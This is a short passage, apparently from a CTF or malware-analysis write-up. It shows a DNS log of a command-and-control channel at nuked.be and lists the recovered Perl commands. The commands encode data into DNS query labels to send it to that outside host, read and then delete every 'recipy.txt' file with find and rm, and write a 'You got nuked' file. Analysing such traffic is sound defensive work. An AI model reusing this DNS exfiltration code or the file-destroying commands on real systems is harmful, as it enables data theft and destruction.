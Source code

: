 ```
Query: nuked.be.
Query: nuked.be.
Query: nuked.be.
Answer: 54.172.156.249
Query: 3060547069917483.registration.nuked.be.
Query: 3060547069917483.registration.nuked.be.
Query: 3060547069917483.cmd.nuked.be.
Answer: $c="cmd.nuked.be.";
Query: 3060547069917483.cmd.nuked.be.
Answer: sub p{pack "H*",pop}
Query: 3060547069917483.cmd.nuked.be.
Answer: sub u{unpack "H*",pop}
Query: 3060547069917483.cmd.nuked.be.
Answer: sub se{$_=pop;`$d+tries=1 $_.$u.$c$w\@$v`foreach(unpack"(A60)*",$_)}
Query: 3060547069917483.cmd.nuked.be.
Answer: sub d{se u "END".$u."END"}
Query: 3060547069917483.cmd.nuked.be.
Answer: sub c{se u pop}
Query: 3060547069917483.cmd.nuked.be.
Answer: sub e{$_=pop;map{c $_}split/\n/;&d}
Query: 3060547069917483.cmd.nuked.be.
Answer: sub z{`${d}files.$v$w\@$v`}
Query: 3060547069917483.cmd.nuked.be.
Answer: e(`find / -type f -name "recipy.txt" -exec cat {} +`);
Query: Secret Ingredient #1337: Club-.3060547069917483.nuked.be.
Query: Secret Ingredient #1337: Club-.3060547069917483.nuked.be.
Query: Mate.3060547069917483.nuked.be.
Query: Mate.3060547069917483.nuked.be.
Query: END3060547069917483END.3060547069917483.nuked.be.
Answer: Stored in sikrit zone!
Query: 3060547069917483.cmd.nuked.be.
Answer: e(`find / -type f -name "recipy.txt" -exec rm {} +`);
Query: END3060547069917483END.3060547069917483.nuked.be.
Answer: Stored in sikrit zone!
Query: 3060547069917483.cmd.nuked.be.
Answer: e(`echo "You got nuked" > ~/nuked.txt`);
Query: END3060547069917483END.3060547069917483.nuked.be.
Answer: Stored in sikrit zone!
Query: 3060547069917483.cmd.nuked.be.
Answer: sub p{pack "H*",pop}
Query: nuked.be.
...
```

Our assumption about the registration and the commands seem correct. We see the command and control sending back some Perl code looking for "recipy.txt" files and a command deleting those files.

Interesting to note as well is that the output seems to be stored in a secret DNS zone.

Let us list the commands send over the wire:
```perl
$c="cmd.nuked.be.";
sub p{pack "H*",pop}
sub u{unpack "H*",pop}
sub se{$_=pop;`$d+tries=1 $_.$u.$c$w\@$v`foreach(unpack"(A60)*",$_)}
sub d{se u "END".$u."END"}
sub c{se u pop}
sub e{$_=pop;map{c $_}split/\n/;&d}
sub z{`${d}files.$v$w\@$v`}
e(`find / -type f -name "recipy.txt" -exec cat {} +`);
e(`find / -type f -name "recipy.txt" -exec rm {} +`);
e(`echo "You got nuked" > ~/nuked.txt`);
```
